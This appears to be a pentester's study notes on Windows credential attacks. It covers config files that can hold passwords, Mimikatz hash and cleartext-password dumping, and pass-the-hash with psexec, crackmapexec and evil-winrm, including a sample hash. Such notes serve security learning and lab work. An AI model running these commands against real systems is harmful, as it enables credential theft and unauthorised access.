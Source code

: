 ##   Windows Password Hashes
![](</Images/Pasted image 20231207191612.png>)

## Searching for Passwords in Config Files
![](</Images/Pasted image 20231207192851.png>)
Unattended Windows Setup util utilizes one of the following files that contain user and system config info
>C:\\Windows\\Panther\\Unattend.xml
>C:\\Windows\\Panther\\Autounattend.xml

## Dumping Hashes With Mimikatz
Post exploitation tool. Extracts clear-text passwords, hashes, and kerberos tickets from memory.

Can use Kiwi via meterpreter. After gaining meterpretper use `load kiwi` then ? for options

Otherwise can upload the program from `/usr/share/windows-resources/mimikatz/x64/minikatz.exe -> minikatz.exe`

When running mimikatz directly, check privs via `privilege::debug`
> Check for OK response

Commands are different than metasploit. 
Ex. to dump sam use `lsadump::sam`

sekurlsa::logonpasswords will show clear text passwords if available.

### Pass the Hash Attack
Can use #psexec or #crackmapexec 
Can still get access using hash even if expoit has been fixed

pgrep lsass for SYSTEM

### psexec
(hasdump with kiwi)
Need LM hash and NTML user hash

#blanklmhash 
Sometimes a blank LM hash is needed. 
```
aad3b435b51404eeaad3b435b51404ee
```



>metasploit exploit/windows/smb/psexec <- doesn't always work right aware. Need to play with the target via `set target`
>set SMPass with the user LM:NTLM hash

### crackmapexec <- no longer maintained (broken sometimes)
```
crackmapexec smb <ip> -u <user> -H "<ntml hash only>"
```

 > add -x for executing commands

### EvilWinRM
```
evil-winrm -i MACHINE_IP -u Administrator -H F138C405BD9F3139994E220CE0212E7C
```
